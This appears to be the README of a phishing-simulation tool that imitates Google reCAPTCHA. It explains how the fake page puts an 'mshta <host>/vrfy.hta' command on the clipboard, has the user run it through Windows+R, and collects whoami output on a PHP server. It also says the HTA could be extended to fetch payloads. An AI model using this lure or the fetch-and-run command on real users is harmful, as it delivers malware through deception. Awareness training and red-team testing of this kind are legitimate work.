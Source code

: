 # CAPTCHA Phishing Simulation - Technical Overview

This project simulates a CAPTCHA verification process for controlled phishing/security awareness training exercises. It mimics a familiar Google reCAPTCHA interface and walks the user through a short client-side action, allowing backend confirmation that the user followed instructions and executed a local payload.

## Components

### 1. `index.html`

A stylised web page that imitates Google reCAPTCHA.

* When the user clicks the "I'm not a robot" checkbox, a pseudo-verification process starts.
* The user is prompted to press Windows + R, paste a copied command (`mshta`), and hit Enter.
* This command opens an `.hta` file with embedded JScript.
* A polling mechanism checks with the server every 2 seconds to see if the `.hta` file has successfully reported in.&#x20;
* The final redirect URL (triggered once verification is confirmed) can be modified in `index.html` as required for your campaign scenario.

### 2. `vrfy.hta`

Executed via `mshta`, this file:

* Extracts the `vid` (verification ID) from the query string.
* Runs `whoami` locally via ActiveX (`WScript.Shell`).
* Sends the username and verification code to the server via an HTTP GET request (to `router.php`).

> ⚠️ This `.hta` file is a proof-of-concept. It can be modified to perform arbitrary code execution, such as launching beacons, downloading payloads, or installing malware. The author provides this code strictly for educational and authorised red team purposes and is **not responsible** for any misuse.

### 3. `verify.php`

Polled continuously by the CAPTCHA page. It checks:

* Whether a file named `verifications/{vid}.txt` exists.
* If found, returns HTTP 200 OK (triggering the green "Verification Complete" status and unlocking the button).

### 4. `router.php`

Handles the incoming GET request from `vrfy.hta`:

* Validates the presence of `vid` and `user` in the request.
* Writes the `vid` and associated user string to `verifications/{vid}.txt`.
* Returns HTTP 200 OK on success.

## Flow Summary

1. User opens `index.html`.
2. User clicks checkbox → JavaScript generates a `vid`, copies `mshta <host>/vrfy.hta?vid=<vid>` to clipboard.
3. User runs it → `.hta` executes `whoami`, submits it to `router.php`.
4. `router.php` saves output to `verifications/<vid>.txt`.
5. `verify.php` is polled → returns 200 OK once that file exists.
6. Button becomes clickable → simulated verification complete.

## Use Cases

* Security awareness training
* Social engineering simulation
* Red team exercises

## Important Notes

* The system does not perform any malicious action by default. It only reads `whoami` and confirms the user ran the `.hta`.
* The `.hta` script can be extended to perform malicious behaviour if misused — the author **disclaims all liability** for such use.
* Ensure users are informed this is a controlled, authorised simulation.
* Hosting this publicly or obfuscating intent may breach acceptable use policies.

## Deployment

* Place all files on a web server with PHP support.
* Ensure the `verifications/` directory is writable by the web server.
* Test locally before deployment to ensure clipboard copy, HTA execution, and polling all work as expected.

## Legal Warning

This tool is intended strictly for use in **authorised environments** for testing or awareness. Use against unsuspecting or unauthorised users is unethical and may be illegal.
